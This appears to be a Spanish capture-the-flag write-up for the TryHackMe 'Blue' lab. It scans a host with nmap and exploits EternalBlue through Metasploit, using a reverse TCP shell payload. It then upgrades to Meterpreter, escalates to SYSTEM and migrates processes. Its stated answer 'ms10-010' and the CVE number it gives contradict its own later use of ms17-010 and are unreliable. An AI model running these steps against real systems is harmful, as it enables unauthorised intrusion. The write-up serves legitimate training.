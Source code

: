 # TryHackMe - Blue Writeup
[https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## Descripción
Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.

## Task 1 - Recon

1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the [Nmap](https://tryhackme.com/room/furthernmap) room)

2. How many ports are open with a port number under 1000?

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)


Podemos escanera la máquina con el siguiente comando:

```
nmap -p1-1000 -sV -sC --script vuln 10.10.9.82
```

El comando hace lo siguiente:
- nmap: es el programa a utilizar.
-  - p1-1000: Indica que se escaneen los puertos del 1 al 1000.
- - sV: Habilita la detección de la versión de los servicios    que corren en los puertos abiertos.
- - sC: Habilita la ejecución de scripts.
- - - script vuln: Hace que se ejecuten los scripts relacionados con la deteccoión de vulnerabilidades (vuln).
- - 10.10.9.82: Es la ip de la máquina a escanear.

Con esto obtendremos los siguientes resultados:

![Consola](img/console1.png)

![Consola](img/console2.png)

Ahora podemos responder a las preguntas:

1. Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

2. How many ports are open with a port number under 1000?
>! 3

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

>! ms10-010
>! ms10-054 ha dado false y ms10-061 no permite el acceso, por lo que sólo queda ms10-010, que se identifica con la vulnerabilidad CVE-2017-1043.

## Task 2 - Gain Access

1. Start [Metasploit](https://tryhackme.com/module/metasploit)

Abrimos Metasploit y esperamos a que cargue, cuando aparezca 'msf6 >' estará listo para usarse.

2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

Introducimos el siguiente comando en la consola de metasploit:

```
search ms17-010 type:exploit
```

![Consola](img/console3.png)

Probamos la primera opción, obteniendo la respuesta:

>! exploit/windows/smb/ms17_010_eternalblue

3. Show options and set the one required value. What is the name of this value? (All caps for submission)

Indicamos a Metasploit que queremos usar el exploit 0:

```
use 0
```

Y le preguntamos las opciones que necesita:

```
show options
```

![Consola](img/console4.png)

La solución es:

>! RHOSTS

Que es la opción requerida que no tiene ningún parámetro asignado. Esta opción indica la IP de la máquina a atacar.

4. Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
```
set payload windows/x64/shell/reverse_tcp
```
With that done, run the exploit!

Introducimos en código que nos proporcionan, seguido de 'y' para confirmar.

Luego, ponemos enb la opción de rhost la ip de la máquina a atacar:

```
set rhosts 10.10.9.82
```

E iniciamos el script:

```
run
```

![Consola](img/console5.png)

5. Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 


## Task 3 - Escalate

1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

En este caso, estamos buscando el exploit 'shell_to_meterpreter':

![Consola](img/console6.png)

>! post/multi/manage/shell_to_meterpreter

2. Select this (use MODULE_PATH). Show options, what option are we required to change?

Repetimos lo mismo que con el exploit anterior:

```
use 0
```

```
show options
```

![Consola](img/console7.png)

Vemos el único parámetro que no tiene valor y es obligatorio:

>! SESSION

3. Set the required option, you may need to list all of the sessions to find your target here. 

4. Run! If this doesn't work, try completing the exploit from the previous task once more.

5. Once the meterpreter shell conversion completes, select that session for use.

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

8. Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 
